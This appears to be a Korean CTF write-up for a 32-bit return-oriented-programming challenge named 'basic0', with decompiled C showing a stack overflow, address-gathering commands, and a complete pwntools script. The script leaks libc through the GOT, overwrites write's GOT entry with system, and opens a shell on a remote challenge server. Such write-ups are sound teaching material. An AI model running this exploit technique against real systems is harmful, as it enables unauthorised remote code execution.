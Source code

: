 # basic0
basic0는 kingepist님이 내주신 rop 문제이다. 
~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-24h]

  setup();
  read(0, &buf, 256u);
  write(1, &buf, 32u);
  return 0;
}
~~~
* ida를 통해 확인한 c code
## 준비단계
* 리눅스에서 objdump 명령어를 사용하여 read의 got와 plt를 구해준다
~~~
neururaon@ubuntu:~/Documents$ objdump -d basic0 | grep -A4 "read"
080483c0 <read@plt>:
 80483c0:	ff 25 0c a0 04 08    	jmp    *0x804a00c
 80483c6:	68 00 00 00 00       	push   $0x0
 80483cb:	e9 e0 ff ff ff       	jmp    80483b0 <.plt>
~~~
* ropgadget을 사용해야 하므로 ropgadget 명령어를 사용해 pop pop pop ret의 주소를 얻어낸다
~~~
neururaon@ubuntu:~/Documents$ ROPgadget --binary basic0
~~~
* bss 영역에 read() 함수로 "/bin/sh"을 저장할 것이므로 readelf 명령어로 bss 영역 주소를 얻어낸다
~~~ubuntu
neururaon@ubuntu:~/Documents$ readelf -S basic0
~~~
* 이렇게 필요한 것은 다 알아냈다.
## exploit
* 순서
  *  0x24+0x4를 하여 0x28개의 dummy 값을 넣어줌
  * wirte() 함수로 read() 함수의 주소를 얻음
  * read() 함수로 bss 영역에 "/bin/sh"을 저장
  * read() 함수로 write()의 got에 system_addr를 저장
  * bss 영역의 값("/bin/sh")를 인자로 write_plt를 호출하여 결론적으로 system을 호출
* exploit code
~~~python
from pwn import *

r=remote("ec2-13-209-22-195.ap-northeast-2.compute.amazonaws.com",10000)


read_plt=0x80483c0
read_got=0x804a00c
write_plt=0x8048410
write_got=0x804a020
pppr=0x8048679
bss=0x804a030
libc = ELF("./libc6-i386_2.27-3ubuntu1_amd64/libc.so.6")
system_offset=libc.symbols['system']


payload='A'*0x28
payload+=p32(write_plt)
payload+=p32(pppr)
payload+=p32(1)
payload+=p32(read_got)
payload+=p32(4)

payload+=p32(read_plt)
payload+=p32(pppr)
payload+=p32(0)
payload+=p32(bss)
payload+=p32(8)
                                  
payload+=p32(read_plt)
payload+=p32(pppr)
payload+=p32(0)
payload+=p32(write_got)
payload+=p32(4)

payload+=p32(write_plt)
payload+='A'*4
payload+=p32(bss)

log.info('Exploit')
r.send(payload)
r.recv(0x20)
read_addr=u32(r.recv()[-4:])
log.info('read_addr=0x%x' %read_addr)

log.info('system_offset= 0x%x' % system_offset)
system_base=read_addr-libc.symbols['read']
log.info('system_base=0x%x' % system_base)
system_addr=system_base+ libc.symbols['system']
log.info('system_addr =0x%x' % system_addr)

r.send('/bin/sh\x00')
r.send(p32(system_addr))

r.interactive()
~~~
